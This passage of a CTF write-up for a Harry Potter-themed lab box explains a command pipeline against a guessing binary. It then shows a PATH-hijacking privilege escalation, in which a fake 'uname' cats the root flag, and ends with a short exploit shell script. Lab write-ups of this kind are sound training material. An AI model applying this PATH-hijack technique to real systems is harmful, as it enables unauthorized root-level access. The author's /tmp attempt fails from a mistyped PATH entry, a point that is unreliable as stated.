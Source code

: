 #### Breakdown of this command

1. First the binary is ran by piping 50 into it, doesn't matter really what number goes here.
2. The output of the binary running is fed into sed, a powerful text manipulation tool
    - -n supresses the text going to stdout
    - 2p only gives the second line of the output, in this case the line with the number on it
3. This line is then passed to cut which is also used to manipulate text
    - -d ' ' sets the delimiter to a space which cuts it up into sections
    - -f 5 selects the 5th of these sections which is just the number
4. This number is then piped back into the program

Running the whole command gives this
```
harry@hogwartz-castle:/srv/time-turner$ echo 50 | /srv/time-turner/swagger | sed -n 2p | cut -d ' ' -f 5 | /srv/time-turner/swagger
Guess my number: Nice use of the time-turner!
This system architecture is x86_64
```

This part of the exploit works!

Now we need to manipulate the PATH

## Path Manipulation

We could go all out and get a root shell but we don't really need to for this CTF, we know where the flag is we will just cat it out.

We will be using the /tmp directory as it is writable.

1. mkdir /tmp/bin
2. echo "cat /root/root.txt" > /tmp/bin/uname
3. chmod +x /tmp/bin/uname
4. export PATH="/tmp/bin/uname:$PATH"

Now running the command should give us the root flag

`echo 50 | /srv/time-turner/swagger | sed -n 2p | cut -d ' ' -f 5 | /srv/time-turner/swagger`

and it didn't work.

After being confused for ages it turns out putting /tmp in the path doens't work. Still not sure why so if someone could Tweet me [@Thetvdh1](https://twitter.com/Thetvdh1) (shameless plug) and explain why that would be great.

To get it to work I repeated the same steps as above but using Harry's home directory and it worked.

This is a short shell script that will do everything for you, it can be downloaded [here](/programs/Bash/madeyeprivesc.sh)

```sh
#!/bin/sh
# exploit.sh
mkdir /home/harry/bin
echo "cat /root/root.txt" > /home/harry/bin/uname
chmod +x /home/harry/bin/uname
export PATH="/home/harry/bin:$PATH"
echo 50 | /srv/time-turner/swagger | sed -n 2p | cut -d ' ' -f 5 | /srv/time-turner/swagger
```
